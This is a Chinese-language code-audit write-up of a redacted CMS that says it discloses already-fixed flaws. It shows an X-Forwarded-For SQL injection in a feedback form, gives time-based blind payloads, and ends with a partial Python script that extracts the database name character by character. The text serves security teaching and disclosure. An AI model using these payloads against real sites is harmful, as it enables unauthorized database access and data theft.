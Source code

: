 0x00 前言
=======

记之前对某cms v1.2版本的代码审计，到现在已经更新了几个版本，本文提到的漏洞在最新版中均已修复。基于安全披露原则，对cms进行打码处理。

0x01 前台SQL注入
============

发现前台功能点有一处在线留言  
![image-20220415114841872.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6d8b6c2fa9fecfa2b1a65281b5870c35fe9de9d4.png)  
对应源码处，看到会记录ip  
![image-20220415115012775.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-ca3dbda25e38c6d7295ee0ed3e4cb233e1886e80.png)

跟进`getIP()`方法，发现会从 xff 请求头获取 ip，存在一个ip伪造的问题，同时这里没有过滤

![image-20220415115112794.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d111c2e867599979b4dd8b2d788136123fabf513.png)

接着通过`mysql::insert($data, 'feedback')`最终会被插入数据库中，我们打个断点跟一下  
![image-20220415115337405.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-798759b4a808db3bc126506b77e504e4b7184be2.png)

发送数据包，指定xff为：`127.0.0.1'`  
![image-20220415122137551.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2130df0125615a810ea88da65256061e64125b56.png)

可以看到`127.0.0.1'`最终拼接到了 insert语句中插入数据库，造成SQL注入漏洞  
![image-20220415122842903.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c91fe55ba8af0958430e788152ebb590d6a73fc3.png)

不过因为这里只会返回`提交失败`或者`提交成功`，没有回显，我们使用时间盲注来获取数据库中数据  
构造payload：`127.0.0.1',sleep(5),'1')#`  
![image-20220415123334761.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-18746a5dc887ab99552c7174da2f4c3d6431d48f.png)

延时五秒成功，获取数据库名长度  
![image-20220415123647317.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-1417e7cc7c2d879ea369ec6b0588a8802826fbe9.png)

编写脚本获取数据库名

```py
#-- coding:UTF-8 --
# Author:dota_st
# Date:2022/4/15 12:38
# blog: www.wlhhlc.top
import requests
import time

url = "http://192.168.1.103:80/api/feedback/"
dict = "0123456789abcdefghijklmnopqrstuvwxyz{}-"

data = "-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"items\"\r\n\r\n58\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params1\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params2\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params3\"\r\n\r\nadmin@qq.com\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params4\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415\r\nContent-Disposition: form-data; name=\"params5\"\r\n\r\nadmin\r\n-----------------------------22936092383923055377108790415--\r\n"
flag = ""

for i in range(1,50):
    for j in dict:
        xff = f"127.0.0.1',sleep(if((substr((select database()),{i},1)=\"{j}\"),3,0)),'1')#"
        print(xff)
```
